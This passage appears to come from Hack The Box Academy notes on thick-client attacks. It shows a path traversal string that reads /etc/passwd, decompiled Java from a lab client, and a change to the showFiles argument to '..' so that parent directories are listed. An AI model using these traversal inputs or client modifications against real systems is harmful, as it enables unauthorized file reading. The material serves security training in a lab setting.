 ![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/dave.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/dave.png)

## Path Traversal

``` txt
../../../../../../etc/passwd
```

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/passwd.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/passwd.png)

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/jdgui.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/jdgui.png)

``` java
public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {
      
      }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
```

``` java
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
```

``` java
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```
